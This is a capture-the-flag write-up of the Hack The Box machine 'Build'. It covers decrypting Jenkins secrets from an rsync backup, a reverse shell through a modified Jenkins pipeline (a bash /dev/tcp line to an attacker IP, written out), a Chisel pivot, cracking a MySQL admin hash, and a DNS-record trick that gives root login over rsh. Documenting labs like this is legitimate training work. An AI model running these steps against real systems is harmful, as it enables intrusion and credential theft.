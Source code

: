 ```yaml
---
title: Build
date: 2024-5-24 09:45:47 +07:00
modified: 2024-5-24 09:45:47 +07:00
tags: [ Build, VulnLab, rsync, rsh, docker, records , Writeup]
description: Write Up for Hackthebox Machine Build
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Build/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Build</font>

​		12<sup>th</sup> May 2024

​		Machine Author(s): [XCT](https://app.hackthebox.com/users/13569)

​		

### Description:

Build is an &quot;easy&quot; difficulty machine, Where we have to get credentials from a backup file, access the internal network and add new records in order to bypass the docker container. 

### Difficulty:

`Easy`


# Enumeration
The Nmap scan shows the following ports.
`nmap -p- --min-rate=10000 10.10.67.89`

`nmap -sC -sV -p21,23,80 10.10.67.89 -oA ./nmap/Build`

|Ports|Service
|22| ssh OpenSSH 8.9p1 Ubuntu
|53| Domain PowerDNS
|512| exec
|513| login
|514| shell Netkit rshd
|873| rsync
|3000| ppp?
|3306| mysql
|8081| blackice-icecap

![](https://photos.squarezero.dev/file/abir-images/Build/1.png)

Default creds on ssh didn't work. And MySQL and Rlogin weren't reachable.

![](https://photos.squarezero.dev/file/abir-images/Build/2.png)

Next, I visited Port 3000 and Found Gitea, a self-hosted git service.

![](https://photos.squarezero.dev/file/abir-images/Build/3.png)

After registering to the platform I checked the company repository and found dev repository by buildadm which seems like a Jenkins project.

![](https://photos.squarezero.dev/file/abir-images/Build/4.png)

Next, I check rsync to check the share in port 873 and Found a Jenkins backup file.

`rsync -av rsync://10.10.67.89/backups`
![](https://photos.squarezero.dev/file/abir-images/Build/5.png)

`rsync -av rsync://10.10.67.89/backups .`

![](https://photos.squarezero.dev/file/abir-images/Build/6.png)

# Foothold

In my research of Jenkins, I found out that to decrypt secrets we need master.key, hudson.util.Secret and the XML file containing the secrets. We can also use [Jenkin_offline_decryptor](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) to decrypt the secret.

[HackTricks Cloud](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

![](https://photos.squarezero.dev/file/abir-images/Build/7.png)

After decrypting the files found in the backup I got the password of buildadm.

![](https://photos.squarezero.dev/file/abir-images/Build/8.png)

Now after logging into the website I can edit the script and get reverse shell after waiting for a little bit.
`sh ''' bash -c 'bash -i >& /dev/tcp/10.8.2.110/1234' '''`

[Jenkins-rce-modifying-pipeline](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-creating-modifying-pipeline)

![](https://photos.squarezero.dev/file/abir-images/Build/9.png)

![](https://photos.squarezero.dev/file/abir-images/Build/10.png)


# Docker Escape

Inside the home directory, I found rhosts file which contained some server names. I'm likely inside a docker container. 

![](https://photos.squarezero.dev/file/abir-images/Build/11.png)

Next, I used Chisel in order to connect to internal running services.

![](https://photos.squarezero.dev/file/abir-images/Build/12.png)
![](https://photos.squarezero.dev/file/abir-images/Build/13.png)
![](https://photos.squarezero.dev/file/abir-images/Build/14.png)
![](https://photos.squarezero.dev/file/abir-images/Build/15.png)

I also made sure to change proxychains config file

![](https://photos.squarezero.dev/file/abir-images/Build/16.png)

A lot of the core binary/functions are missing in the docker. I went back to the website and found the internal IP address inside the webhook.

![](https://photos.squarezero.dev/file/abir-images/Build/17.png)


Now we can scan the internal ports.

![](https://photos.squarezero.dev/file/abir-images/Build/18.png)

Default creds can get us access to MySql server.

![](https://photos.squarezero.dev/file/abir-images/Build/19.png)

After enumerating the databases I got the admin hash and more services that are running inside.

```bash
MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+ 
| information_schema | 
| mysql              | 
| performance_schema | 
| powerdnsadmin      | 
| sys                | 
+--------------------+ 
5 rows in set (0.130 sec)
```

```bash
MariaDB [powerdnsadmin]> SHOW TABLES;
+-------------------------+
| Tables_in_powerdnsadmin |
+-------------------------+
| account                 |
| account_user            |
| alembic_version         |
| apikey                  |
| apikey_account          |
| comments                |
| cryptokeys              |
| domain                  |
| domain_apikey           |
| domain_setting          |
| domain_template         |
| domain_template_record  |
| domain_user             |
| domainmetadata          |
| domains                 |
| history                 |
| records                 |
| role                    |
| sessions                |
| setting                 |
| supermasters            |
| tsigkeys                |
| user                    |
+-------------------------+
23 rows in set (0.130 sec)
```

```bash
MariaDB [powerdnsadmin]> SELECT * FROM user;
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
| id | username | password                                                     | firstname | lastname | email          | otp_secret | role_id | confirmed |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
|  1 | admin    | $2b$12$s1hK0o7YSc2<...SNIP...>.hsEq | admin     | admin    | admin@build.vl | NULL       |       1 |         0 |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
1 row in set (0.128 sec)    
MariaDB [powerdnsadmin]> SELECT * FROM records;
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
| id | domain_id | name                 | type | content                                                                                  | ttl  | prio | disabled | ordername | auth |
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
|  8 |         1 | db.build.vl          | A    | 172.18.0.4                                                                               |   60 |    0 |        0 | NULL      |    1 |
|  9 |         1 | gitea.build.vl       | A    | 172.18.0.2                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 10 |         1 | intern.build.vl      | A    | 172.18.0.1                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 11 |         1 | jenkins.build.vl     | A    | 172.18.0.3                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 12 |         1 | pdns-worker.build.vl | A    | 172.18.0.5                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 13 |         1 | pdns.build.vl        | A    | 172.18.0.6                                                                               |   60 |    0 |        0 | NULL      |    1 |
| 14 |         1 | build.vl             | SOA  | a.misconfigured.dns.server.invalid hostmaster.build.vl 2024050201 10800 3600 604800 3600 | 1500 |    0 |        0 | NULL      |    1 |
+----+-----------+----------------------+------+------------------------------------------------------------------------------------------+------+------+----------+-----------+------+
7 rows in set (0.129 sec)
```

I started scanning the newly found IPs.

![](https://photos.squarezero.dev/file/abir-images/Build/20.png)
![](https://photos.squarezero.dev/file/abir-images/Build/21.png)

PowerDNS running on 172.18.0.6 and the login page was exposed as well.

![](https://photos.squarezero.dev/file/abir-images/Build/22.png)

To access the internal website in the browser I had to create a new socks5 config in ForxyProxy.

![](https://photos.squarezero.dev/file/abir-images/Build/23.png)

Now Im able to to access the website's login page.

![](https://photos.squarezero.dev/file/abir-images/Build/24.png)

I used Hashcat to crack the hash and got the admin password.

![](https://photos.squarezero.dev/file/abir-images/Build/25.png)

After logging in with the admin creds I presented with the zone management dashboard of [build.vl]().

![](https://photos.squarezero.dev/file/abir-images/Build/26.png)
![](https://photos.squarezero.dev/file/abir-images/Build/27.png)

I can redirect the internal admin.build.vl to my IP by adding a new record in the zone management. 
Now I will be able to access the main machine instead of the container.

![](https://photos.squarezero.dev/file/abir-images/Build/28.png)

Using Metasploit rlogin_login module I check to see if default cred combinations work and if root with no passwords can log in.

![](https://photos.squarezero.dev/file/abir-images/Build/29.png)

Now I can log in using rsh client.

Note: Kali removed rsh client, In order to install `sudo apt-get install rsh-redone-client`

![](https://photos.squarezero.dev/file/abir-images/Build/30.png)




